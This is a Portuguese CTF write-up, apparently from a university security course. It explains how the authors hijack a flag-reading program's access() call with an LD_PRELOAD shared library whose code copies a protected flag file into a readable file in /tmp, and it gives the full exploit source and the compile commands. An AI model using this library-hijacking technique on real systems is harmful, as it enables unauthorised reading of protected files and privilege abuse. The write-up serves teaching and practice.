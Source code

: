 # Linux Environment CTF

## Parte 1 - Investigaçao

Começamos por correr o comando indicado para nos conectarmos ao servidor:

```bash
$ nc ctf-fsi.fe.up.pt 4006
```
Estando conectados, utilizamos o comando ls para ver os ficheiros do diretorio e encontramos o seguinte:

![](../pictures/ctf4ls.png)

Acreditando que admin_note.txt seria uma pista, decidimos ver o que ele continha.

![](../pictures/admin_note.png)

Graças a essa dica, fomos à pasta /tmp e após tentar criar um ficheiro percebemos que esta era a unica pasta que nao é read-only.

Sendo capazes de criar ficheiros, percebemos que existe a possibilidade de  fazer o que aprendemos no SEED labs da semana 4. Voltamos entao à pasta /flag_reader e procuramos nos seus ficheiros alguma chamada a um comando Linux. Encontramos o seguinte no ficheiro
"main.c":

![](../pictures/catmain.png)

Existe uma chamada ao comando "access".

## Parte 2 - Captura da Bandeira

O nosso objetivo passou entao agora a ser criar um programa chamado "access" capaz de ir buscar a bandeira ao ficheiro a qual nós nao temos acesso e transferi-la para um ficheiro de texto ao qual nós tenhamos acesso.

```bash
$ cd /tmp
$ touch exploit.c
$ echo "#include <fcntl.h>" > exploit.c
$ echo "#include <stdio.h>" >> exploit.c
$ echo "#include <stdlib.h>" >> exploit.c
$ echo "#include <unistd.h>" >> exploit.c
$ echo "#include <sys/types.h>" >> exploit.c
$ echo "int access(const char *pathname, int mode){" >> exploit.c
$ echo "    system(\"/usr/bin/cat /flags/flag.txt > /tmp/result.txt\");" >> exploit.c
$ echo "    return 0;" >> exploit.c
$ echo "}" >> exploit.c
```

Os seguintes comandos criam exatamente esse programa. Mas só criando o programa nao fazemos com que o servidor corra o nosso em vez do original. Temos entao que alterar as variaveis de ambiente para que o corra. Para isso começamos por correr o seguinte comando:

```bash
$ gcc -fPIC -g -c exploit.c
```
Este irà gerar um ficheiro "exploit.o" a partir da compilaçao do ficheiro "exploit.c" capaz de ser utilizado numa libraria partilhada. De seguida corremos:

```bash
$ gcc -shared -o exploit.so exploit.o -lc
```

Gerando assim uma livraria partilhada "exploit.so" a partir do ficheiro "exploit.o" e ligando-a a "libc", uma livraria de C.

De seguida criamos um ficheiro "env" que indica que a variavel de ambiente "LD_PRELOAD" deve ser buscada a exploit.so:

```bash
$ echo "LD_PRELOAD=/tmp/exploit.so" > env
```

Por fim, alteramos as permissoes do ficheiro "result.txt" para que todos os utilizadores consigam ler, escrever e executar:

```bash
$ chmod 777 result.txt
```

Por fim, acedemos a "result.txt", coletamos a bandeira e entregamos em ctf-fsi.fe.up.pt, verificando assim que estava correta.
